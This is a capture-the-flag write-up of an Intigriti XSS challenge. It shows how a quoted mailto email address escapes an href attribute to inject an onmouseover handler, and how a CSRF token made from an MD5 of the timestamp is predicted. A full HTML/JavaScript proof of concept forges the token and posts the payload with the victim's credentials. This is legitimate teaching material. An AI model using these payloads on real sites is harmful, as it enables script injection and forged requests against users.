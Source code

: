 
## Intigriti — XSS Challenge 

![Capture](https://user-images.githubusercontent.com/59454895/112804703-fff84980-9074-11eb-972e-85a85c837655.PNG)

## Let's start

The challenge website had an input field to enter notes where we could write what we want.
First of all i tried to fuzz in order to see how the challenge would react , the first thing i noticed was a csrf token and our notes in the post request,
i also noticed that if we send a special character to escape the html tag with any strange element it will be sanitized by the server . After a while i
found out that the notes went through htmlspecialchars() function, which should help to prevent xss on this field because it can convert elements like < or > into  HTML entities.

Fortunately during my test i also tried to put an email in the note field ,it  helped me to find a hidden feature (the mailto attribute did not appear with other types of inputs).

![Capture3](https://user-images.githubusercontent.com/59454895/112806481-18696380-9077-11eb-95b0-8221d5b8cc54.PNG)

I tought it was interesting bacause maybe we could escape since the email address appears inside the href attribute of the HTML tag.
I decided to read how "mailto" works from the rfc , and i found out there is a strange way to declare the email with this attribute:
``` "\\\"it's\ ugly\\\""@example.org; ``` .

 It was a very good find , because it could allow to inject javascript between ``` "\\\"it's\ ugly\\\" ```  and ``` "@example.org; ```
  
the final payload was :
``` "\\\"traffik\prova\\\"\ onmouseover=alert('flag{THIS_IS_THE_FLAG}');//"@outlook.it  ```

The following payload breaks out of the attribute and adds an onmouseover event.
![Capture6](https://user-images.githubusercontent.com/59454895/112814874-063ff300-9080-11eb-9319-a2ce218340fb.PNG)


## CSRF Token bypass
The challenge had CSRF token(in this case hashed with MD5) built in. The page generates a token and stores it in a hidden form input.  That's a problem for our final POC because the server ensure that the form hasn’t been submitted by a malicious site thanks to this token , so we need to bypass it. 

To conclude I would like to thank huli who helped me write the final poc (I suck with javascript syntax lol), I also hope someone will find this writeup useful for learning something new.

First of all i tried to generate an empty csrf token and a csrf token of the same length as the original but nothing worked.
After a while i noticed that there was also a comment with a timestamp and it helped me a lot , because after a research i understood that the token was generated by taking the unix timestamp and hashandled it in md5 , that's not effective as a protection because is easy to predict .


![Capture5](https://user-images.githubusercontent.com/59454895/112812171-15717180-907d-11eb-91a2-a6b0f9df6459.PNG)

So in order to finish the challenge i made a POC where i could send my xss payload inside the notes parameter with the post request thanks to ``` XMLHttpReques ``` ,  to bypass the csrf token i just took the date with ``` Date.now() ``` function in js and hashandled all in md5.
Final POC:

```html
<html>
  <head>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/crypto-js/3.1.9-1/core.js"></script>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/crypto-js/3.1.9-1/md5.js"></script>
  </head>
  <body>
    <button onclick="Esegui()">Execute Payload</button>
    <script>
        function Esegui() {
          var url = "https://challenge-0321.intigriti.io/";
          var flag = "\ onmouseover=alert('flag{THIS_IS_THE_FLAG}');//"
          var xss_payload = "\\\traffik\prova\\\" + flag + "@outlook.it "

          var d = Date.now().toString().substr(0,10);
          var csrf = CryptoJS.MD5(d).toString();
          var data = "csrf=" + csrf + "&notes=" + xss_payload;

          var request1 = new XMLHttpRequest();
          request1.open("GET",url);
          request1.withCredentials = true;

          request1.onreadystatechange = function () {
            var request2 = new XMLHttpRequest();
            request2.withCredentials = true;
            request2.open("POST", url);
            request2.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
            request2.send(data);
          }

          request1.send();
        }
    </script>
</body>
</html>
```
